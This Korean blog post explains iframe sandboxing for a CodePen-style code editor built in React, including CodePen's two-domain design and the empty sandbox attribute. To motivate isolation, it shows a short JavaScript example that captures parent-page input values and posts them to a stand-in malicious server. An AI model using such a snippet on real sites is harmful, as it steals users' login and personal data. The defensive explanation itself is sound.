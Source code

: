 ```yaml
---
layout: single
title: '코드 에디터를 위한 iframe 디자인 패턴'
categories: HTML
tag: [HTML, CodePen Project]
---
```


#### 개발 목표

Code Pen이라는 온라인 코딩 툴 사이트가 있다. - https://codepen.io/ <br>해당 사이트와 같이 코드를 입력하고 번들링하여 실시간으로 보여주는 사이트를 React로 만들고자 한다. 단, 로그인과 같은 인증 기능은 제외한다.

---

#### 코드 입력 창에서 발생할 수 있는 문제점

간단하게 만들 수 있을 것 같았지만 코드를 입력하는 창을 구현하기 위해서는 아래와 같은 이슈사항들이 있었다.

1. 코드 입력창에 오류를 발생시키는 문법 등의 잘못된 코드가 작성될 수 있다.
2. DOM을 조작하는 코드로 인해 예상하지 못한 현상이 발생할 수 있다. <br> ex) document.body.innerHTML = '';
3. 사용자가 악의적인 코드를 넣을 수 있다. <br> ex) for (var i = 0; i < 99999999999999999; i++) {
   console.log(i);
   }

---

#### iframe 사용하여 해결

상기와 같은 문제점을 해결하기 위해서 HTML의 iframe을 사용해야 한다. iframe은 일반적으로 child frame이며, 그외의 요소는 parent frame에 속한다. 여기서 중요한 것은 **JavaScript EC(execution context)가 parent/child frame 별로 각각 따로 존재하고 실행된다는 것이다**. 즉, iframe에서 문제가 발생하더라도 iframe의 EC에서만 오류가 발생하고, Front App의 EC에는 영향을 주지 않는다.

![codepen-flowchart](/assets/images/iframe/js-execution-context.png 'Code Pen 사이트 디자인패턴')

그렇다면 어떻게 사용자가 입력한 코드를 iframe로 넣어 실행할 수 있을까?
'child frame'에서 'parent frame'의 정보를 가져올 때는 'parent' 문법을 사용하면 된다. 크롬 개발자 도구의 'console' 탭에서 'child iframe' 요소를 선택 후 'parent'를 입력하면 'parent frame'의 'Window 객체' 나타나는 것을 확인 할 수 있다. 반대로 'parent frame'에서 'child iframe'의 정보를 가져올 때는 'document.querySelector('iframe').contentWindow' 문법을 사용하면 된다.

추가적으로 알아야할 사항은 iframe이 항상 parent와 child frame의 커뮤니케이션을 허용하는 것은 아니라는 점이다. iframe은 아래와 같은 조건에서만 parent/child가 서로 접근할 수 있다.

-   iframe에 'sandbox' 프로퍼티가 없는 경우
-   sandbox의 프로퍼티가 존재하지만, 'sandbox="allow-same-origin"'인 경우
-   parent/child의 HTML document가 같은 domain, port, protocol(http vs https)인 경우

---

#### parent/child 직접 통신 방식의 문제점 및 해결방법

하지만, parent/child frame이 서로 직접 접근할 수 있으면 많은 문제점이 발생한다. 예를 들어, 해커가 사용자의 코드 입력 창에 아래와 같은 악의적인 코드를 넣을 수 있다. 이를 통해 해커는 'child frame'에서 'parent frame'의 input element'를 가져올 수 있다. 이후 eventListener를 사용하여 악의적인 서버로 개인 및 로그인 정보를 보낼 수 있다.

```javascript
document.querySelector('input').addEventListener('change', function => {
   axios.post('malicous.server', {
      value: event.target.value
   })
})
```

이외에도 쿠키와 세션 정보 등을 갈취할 수 있을 것이다. 이러한 이유로 Code Pen 사이트에서도 parent/child가 직접 통신하는 방식으로 구현하지 않았다.

아래는 Code Pen 사이트의 데이터 흐름을 정리한 것이다.
![codepen-flowchart](/assets/images/iframe/codepen-flowchart.png 'Code Pen 사이트 디자인패턴')

1. 사용자가 코드를 입력하면 'codepen.io' 서버에 코드를 전송한다.
2. codepen.io 서버에서 코드 Transpiling 프로세스가 완료된다.
3. Transpiling된 코드를 Frontend App으로 전송한다.
4. **전송된 코드를 바로 Frontend App에서 실행하는 것이 아니라 iframe을 먼저 Reload 시킨다.** (Reload는 새로고침과 유사)
5. Reload가 될 때, 'copn.io' 서버에 요청하여 iframe에서 보여질 HTML document를 가져온다. 즉, iframe은 다른 도메인을 통해서 로드된다.
6. HTML document 요소를 가져온 뒤, 'codepen.io' 서버에서 Transpiling된 JS 코드를 다시 'cdpn.io'에 전송 후 돌려받는다. 해당 JS 코드를 실행하며 끝난다.

> 참고 : 사이트에서 코드를 입력하면 개발자 도구 Network 탭에서 통신을 확인할 수 있다.
> ![codepen-flowchart-site](/assets/images/iframe/codepen-flowchart-realsite.png 'Code Pen 사이트 네트워크 탭')

흐름을 살펴보면 Front App과 iframe간의 직접 통신하는 부분이 없다는 것을 확인할 수 있다. 이는 위에서 설명했듯이 악의적인 코드가 브라우저에서 실행되는 것을 방지하기 위해서이다.

대부분의 '온라인 코딩 툴 사이트'는 위와 같은 구조를 가지고 있다. 하지만 서버를 2개나 사용하고 데이터 흐름도 복잡하다. 쉬운 방법은 없을까? 브라우저 내에서 코드를 Transpiling을 하면 더 간편한 로직으로 만들 수 있다.

<hr>
#### ESbuild를 사용한 코드 번들링 간소화

기존 Code Pen 사이트의 경우 코드 Transpiling을 아래의 그림과 같이 BackEnd에서 진행하는 복잡한 구조를 가지고 있다.

![codepen-option1-flowchart-site](/assets/images/iframe/codepen-option1-be-flowchart.png 'Code Pen 번들링 옵션1')

하지만, ESBuild를 사용하면 아래의 그림과 같이 브라우저 내에서 코드 Transpiling을 진행할 수 있다. 브라우저 코드 Transpiling 방법을 설명하기에는 너무 길어져 별도의 포스팅에서 확인할 수 있다.

![codepen-option2-flowchart-site](/assets/images/iframe/codepen-option2-flowchart.png 'Code Pen 번들링 옵션2')

이를 통해 코드 Transpiling을 위한 서버를 생략할 수 있다. ESbuild는 브라우저 자체에서 JS 코드를 실행 한다. 따라서 기존의 'cdpn.io' 서버에서 진행했던 JS 파일 실행 프로세스도 생략 가능하다. 최종적으로 'cdpn.io' 서버에는 HTML document를 fetch하는 부분만 남는다. 이는 parent document에 접근하지 못하도록하는 오직 하나의 보안상의 이유로만 존재한다. 그런데 하나의 보안상의 이유로 서버를 사용하는 것이 비효율적이다. 서버를 사용하지 않는 해결 방법은 없을까?

우리는 이미 위에서 iframe이 "sandbox='allow-same-origin'" 프로퍼티를 가지고 있으면 frame간의 직접 커뮤니케이션이 가능하다는 것을 배웠다. 이를 뒤집어 생각하면 "sandbox=''"와 같은 empty string을 사용하면 서버 없이 frame간의 간접 커뮤니케이션이 가능하다. 즉, 서버 없이 동일한 보안 목적을 달성할 수 있는 것이다. 최종적으로 아래와 같은 간단한 구조로 구현이 가능하다.

![codepen-final-flowchart-site](/assets/images/iframe/codepen-final-flowchart.png 'Code Pen 최종 아키텍처')

최종적인 패턴의 흐름은 아래와 같다.

1. 유저가 코드를 작성하면 iframe이 reload 된다.
2. Frontend App에 작성한 HTML document를 가져와 iframe에 load한다.
3. iframe 내부에서 JS 코드 번들이 진행된다. 이때 sandbox='' 옵션으로 parent와 외부 document에 접근이 불가하다.

간소화가 되었지만 여기에도 단점은 존재한다. localStorage, cookie 등과 같은 곳에 접근하지 못하는 것이다. 즉, 코드 입력창에 "localStorage.getItem('userInfo')"와 같은 구분을 입력했을 때 동작하지 않는다. 구현이 간단해진만큼 기능이 없어지는 타협점이다.
